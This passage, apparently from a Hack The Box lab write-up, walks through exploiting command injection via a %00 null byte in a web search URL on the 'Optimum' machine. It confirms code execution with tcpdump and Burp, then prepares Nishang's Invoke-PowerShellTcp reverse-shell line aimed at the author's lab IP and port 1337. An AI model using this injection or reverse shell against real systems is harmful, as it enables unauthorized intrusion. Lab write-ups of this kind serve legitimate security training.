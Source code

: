 This explains that we can execute our own commands after %00 passed via the URL.

## Gaining Access

Open another terminal and set tcpdump listening:

```text
root@kali:~/htb/optimumh# tcpdump -i tun0
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
```

Open Burp and use Repeater to test:

![burp_ping](/assets/images/2020-06-29-22-07-22.png)

Clicking go should ping me:

```text
22:33:43.401625 IP kali.39206 > 10.10.10.8.http: Flags [.], ack 1744, win 276, options [nop,nop,TS val 2785576152 ecr 720506], length 0
22:33:43.402242 IP kali.39206 > 10.10.10.8.http: Flags [F.], seq 406, ack 1744, win 276, options [nop,nop,TS val 2785576153 ecr 720506], length 0
22:33:43.440371 IP 10.10.10.8.http > kali.39206: Flags [.], ack 407, win 257, options [nop,nop,TS val 720511 ecr 2785576153], length 0
```

So this proves I can execute a ping command through the search field of the webpage. I can use this to get a shell, grab a PowerShell reverse one from [Nishang:](https://github.com/samratashok/nishang)

```text
root@kali:~/htb/optimumh# git clone https://github.com/samratashok/nishang.git
Cloning into 'nishang'...
remote: Enumerating objects: 16, done.
remote: Counting objects: 100% (16/16), done.
remote: Compressing objects: 100% (13/13), done.
remote: Total 1676 (delta 5), reused 12 (delta 3), pack-reused 1660
Receiving objects: 100% (1676/1676), 7.76 MiB | 1.93 MiB/s, done.
Resolving deltas: 100% (1045/1045), done.
```

Use the Invoke-PowerShellTcp.ps1 script for the reverse shell, first put this at the end of the file:

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.22 -Port 1337
```
